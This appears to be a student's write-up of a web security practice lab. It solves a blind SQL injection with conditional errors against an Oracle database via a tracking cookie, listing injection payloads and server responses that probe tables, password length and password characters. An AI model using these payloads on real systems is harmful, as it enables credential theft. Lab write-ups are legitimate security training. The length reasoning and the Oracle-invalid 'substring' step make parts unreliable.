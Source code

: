 **Lab: Blind SQL injection with conditional errors**
*Vulnerable parameter - tracking cookie*
*- Goal:*
1. Exploit vulnerabilities to find out the password
2. Log in as `administrator`

*- Analysis:*

1. Prove that this parameter is vulnerable:

> ' || (select '' from dual) || ' 

-> 200 OK -> this is ORACLE database

> ' || (select '' from dualfiewjlow) || ' 

-> 500 error
2. Confirm that we have a user table in database:
> ' || (select '' from users where rownum = 1) || ' 

-> 200 OK: users table exists 

3. Confirm that we have a user `Administrator` existing in users table:
> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') ||'

-> 500 internal server error -> administrator user exists 

> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='jasdnlaksnd') ||'

-> 200 OK -> user does not exist in the database
4. Determine the length of the password of '`Administrator`:

> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>20) ||'

-> 200 OK -> length is less than 50
-> 20 characters because from 19 to 20 status response is change from 500 to 200

5. Output the admin password:
> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substring(password,1,1)='a') ||'

-> 500 interval server error: a is the first character


> Intruder -> Type:Brute Forcer -> Min_Max:1_1-> Set filter (pro version)

> Cluster bomb2 -> Type:Brute Forcer -> 2 payload

*`LAB SOLVED`*

![alt text](image.png)
![alt text](image-1.png)